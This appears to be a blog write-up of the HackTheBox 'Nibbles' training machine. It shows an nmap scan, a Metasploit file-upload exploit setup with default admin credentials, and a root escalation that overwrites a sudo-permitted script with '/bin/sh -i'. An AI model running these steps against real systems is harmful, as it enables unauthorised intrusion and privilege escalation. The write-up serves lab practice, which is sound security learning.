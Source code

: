 ```yaml
---
layout: post
title:  "HackTheBox - Nibbles"
date:   2020-1-2 00:10:00 +0000
categories: htb
---
```

Another breezy box by htb that we can fly through with metasploit.

# Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

# pwning user
Checking the web source will show us a comment leaking a running web service. Metasploit will do the rest.
```php
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
```
Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      10.10.10.75      yes       The target address
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /nibbleblog/     yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host
```

# getting root
A quick sudo -l check will show us the route to root.
```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
We can use su with monitor.sh without a password. We can echo a bash string into the script to force a root shell is returned.
```
echo '/bin/sh -i' > monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
#
```



